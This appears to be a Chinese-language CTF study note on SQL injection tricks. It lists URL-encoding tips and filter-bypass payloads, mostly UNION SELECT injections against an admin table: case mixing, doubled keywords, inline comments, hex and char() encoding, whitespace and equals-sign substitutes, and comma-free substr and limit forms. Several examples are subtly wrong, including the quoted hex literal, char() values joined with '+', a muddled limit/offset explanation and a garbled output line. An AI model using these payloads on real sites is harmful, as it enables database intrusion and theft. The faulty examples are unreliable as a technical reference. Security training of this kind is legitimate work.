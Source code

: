 # ==SQL注入 trick 技巧==

**任何题目都是具有套路或者技巧，即trick**



## http协议Trick

URL中字符的特殊含义： 

```
1. &  表示 GET 方式提交参数的分隔符 a=1&b=2，如果在SQL注入过程中，将 and 替换为 && ， 要对&进行URL编码 && =》 %26%26

2. # 在URL中表示锚点，在sql中表示注释 ，为了 # 可以在sql语句中生效，我们也应该对 # 进行对应的编码 # =》 %23

3.Web站点默认访问 index 开头的页面，http://ctf.xxx.com/?id=1  实际上是省略掉了该网站的默认跳转页面index.php 所以实际上的网站应该是 http://ctf.xxx.com/index.php?id=1

4.Web站点默认使用80端口，可省略。http://ctf.xxx.com:8080/?id=1 , 如果得80端口，则不可省略该端口
```





## 绕过过滤方式



```sql
1.常用注释符 （引号逃逸使用）
--空格注释内容  --+注释内容   /*注释内容*/   #注释内容

2.大小写绕过 SQL 不区分大小写
select * from admin where id = 1;
select * from admin where id = 1 UniOn SelEcT 1,2,3,4,5;

3.双写绕过
select * from admin where id = 1;
select * from admin where id = 1 UnunionioN SeleCt 1,2,3,4,5;

4.内敛联注释绕过
select * from admin where id = 1;
select * from admin where id = 1 UniOn /*!SeleCt*/ 1,2,3,4,5;

5.单引号过滤
select * from admin where id = 1;
select * from admin where id = 1 union select 1,2,table_name,4,5 from information_schema.tables where table_schema = 'web_sql';

十六进制绕过
select * from admin where id = 1;
select * from admin where id = 1 union select 1,2,table_name,4,5 from information_schema.tables where table_schema = '0x7765625F73716C';

char函数绕过
select * from admin where id = 1;
select * from admin where id = 1 union select 1,2,table_name,4,5 from information_schema.tables where table_schema = char(119)+char(101)+char(98)+char(95)+char(115)+char(113)+char(108);


6.空格过滤

括号绕过 （查什么，从哪里，符合条件）
select(id)from(admin)where(id=1);

注释绕过  空格=》/**/
select/**/*/**/from/**/admin;

反引号绕过（数据库默认识别关键字，不需要加引号，但是无法自动识别用户定义的表名和字段名，此时可以使用反引号指定）
select * from`admin`where`id`=1;

其他空白字符绕过
# ASCII table：
#  TAB    09     horizontal   TAB
#  LF     0A     new line
#  FF     0C     new page
#  CR     0D     carriage return
使用URL编码：%09，%0A，%0C，%0D

mysql> select
	-> *
	-> from
	-> admin
	-> where
	-> id
	-> =
	-> 1
	-> ;
	
	id  username  password
	1   admin     flag{e10adc3949be59abbe56e057f2gf883e}
	1 row in set fg.a sec)
```

![image-20230907133845273](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907133845273.png)

```sql
7.等号过滤

like 或 rlike 绕过
mysql> select * from admin where username like 'admin';
```

![image-20230907135819842](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907135819842.png)

```sql
mysql> select * from admin where username rlike 'admin';
```

![image-20230907135922020](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907135922020.png)

```sql
between...and...绕过
mysql> select * from admin where username between 'admin' and 'admin';
```

![image-20230907140502048](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907140502048.png)

```sql
regexp 绕过
select * from admin where username regexp 'admin';
```

![image-20230907140735983](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907140735983.png)





```sql
8.逗号过滤
盲注过程中，需要使用 substr、substring、mid等字符串截取函数、limit m,n截取记录，都要使用逗号。

substr('字符串',start,length)使用substr('字符串',from start for length)替换

mysql> select substr('admin',1,1);
mysql> select substr('admin' from 1 for 1);

```

![image-20230907141742227](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907141742227.png)



```sql
limit m,n 使用 limit m offset n 替换
mysql> select * from admin limit 0,1;
mysql> select * from admin limit 1 offset 0;
```

**注意：这里的offset与limit中的   m  n 的位置是相反的，limit m,n的意思是限制，也就是相当于从下标为m的地方开始，限制n个位置的大小。但m offset n的意思是,从第m个位置开始，向后偏移n个单位的大小，所以offset前的m是不能为0的**

![image-20230907142248512](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907142248512.png)





**小结：**

**1.http中的Trick必备**

**2.常用的绕过方式**